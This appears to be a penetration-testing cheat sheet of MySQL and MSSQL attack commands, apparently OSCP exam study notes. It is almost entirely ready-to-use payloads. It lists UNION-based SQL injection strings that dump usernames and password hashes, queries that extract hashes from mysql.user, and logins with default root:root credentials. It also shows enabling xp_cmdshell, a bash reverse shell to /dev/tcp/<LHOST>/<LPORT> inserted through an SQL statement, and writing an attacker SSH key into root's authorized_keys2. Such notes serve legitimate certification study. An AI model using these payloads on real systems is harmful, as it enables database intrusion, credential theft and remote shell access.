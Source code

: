 se		clear with Ctrl + L
Connect, with root:root creds over default port 3306
```c
mysql -u root -p'root' -h 192.168.50.16 -P3306
```

Get Version info:
```c
select version();
```

Verify current database user for ongoing session:
```c
select system_user();
```
			Verifys who you are

Show all MySql databases
```c
show databases;
```

Retried password of the offsec user present in the mysql database:
```c
SELECT user, authentication_string FROM mysql.user WHERE user ='offsec';
```
			will provide hash of password

To see all tables under a database:
```c
use <databasename>;
```
```c
show tables;
```




Attempt our first attack by enumerating the current database name, user, and MySQL version:
```c
%' UNION SELECT database(), user(), @@version, null, null -- //
```
BETTER ALTERNATE, apps dont typically show first column since its typically just an ID, so push everything to the right and null left:
```c
' UNION SELECT null, null, database(), user(), @@version  -- //
```

Lets enumerate for other tables in the database:
```c
' union select null, table_name, column_name, table_schema, null from information_schema.columns where table_schema=database() -- //
```

Now use the output shown from previous step to dump usernames and md5 hashes of user table:
```c
' UNION SELECT null, username, password, description, null FROM users -- //
```

#### MySQL

```c
mysql -u root -p
mysql -u <USERNAME> -h <RHOST> -p
```

```c
mysql> show databases;
mysql> use <DATABASE>;
mysql> show tables;
mysql> describe <TABLE>;
mysql> SELECT * FROM Users;
mysql> SELECT * FROM users \G;
mysql> SELECT Username,Password FROM Users;
```

##### [](https://github.com/0xsyr0/OSCP#update-user-password)Update User Password

```c
mysql> update user set password = '37b08599d3f323491a66feabbb5b26af' where user_id = 1;
```

##### [](https://github.com/0xsyr0/OSCP#drop-a-shell)Drop a Shell

```c
mysql> \! /bin/sh
```

##### [](https://github.com/0xsyr0/OSCP#xp_cmdshell)xp_cmdshell

```c
SQL> EXEC sp_configure 'Show Advanced Options', 1;
SQL> reconfigure;
SQL> sp_configure;
SQL> EXEC sp_configure 'xp_cmdshell', 1;
SQL> reconfigure
SQL> xp_cmdshell "whoami"
```

```c
SQL> enable_xp_cmdshell
SQL> xp_cmdshell whoami
```

##### [](https://github.com/0xsyr0/OSCP#insert-code-to-get-executed)Insert Code to get executed

```c
mysql> insert into users (id, email) values (<LPORT>, "- E $(bash -c 'bash -i >& /dev/tcp/<LHOST>/<LPORT> 0>&1')");
```

##### [](https://github.com/0xsyr0/OSCP#write-ssh-key-into-authorized_keys2-file)Write SSH Key into authorized_keys2 file

```c
mysql> SELECT "<KEY>" INTO OUTFILE '/root/.ssh/authorized_keys2' FIELDS TERMINATED BY '' OPTIONALLY ENCLOSED BY '' LINES TERMINATED BY '\n';
```

##### [](https://github.com/0xsyr0/OSCP#linked-sql-server-enumeration)Linked SQL Server Enumeration

```c
SQL> SELECT user_name();
SQL> SELECT name,sysadmin FROM syslogins;
SQL> SELECT srvname,isremote FROM sysservers;
SQL> EXEC ('SELECT current_user') at [<DOMAIN>\<CONFIG_FILE>];
SQL> EXEC ('SELECT srvname,isremote FROM sysservers') at [<DOMAIN>\<CONFIG_FILE>];
SQL> EXEC ('EXEC (''SELECT suser_name()'') at [<DOMAIN>\<CONFIG_FILE>]') a
```